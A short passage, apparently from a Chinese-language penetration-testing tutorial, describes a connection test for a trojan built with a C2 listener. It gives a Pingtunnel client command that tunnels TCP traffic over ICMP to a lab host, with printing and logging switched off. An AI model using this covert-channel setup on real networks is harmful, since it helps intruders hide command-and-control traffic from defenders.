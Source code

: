 ![image-20230530141932112](assets/rVlC4Z2nYIXijcS.png)

#### 2.1.2.4. 连接测试

木马生成就不在赘述了，和正常生成木马一样，注意需要使用监听器1来生成木马。

首先开启Pingtunnel的服务端模式，这里我也不再进行演示，然后运行客户端。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```
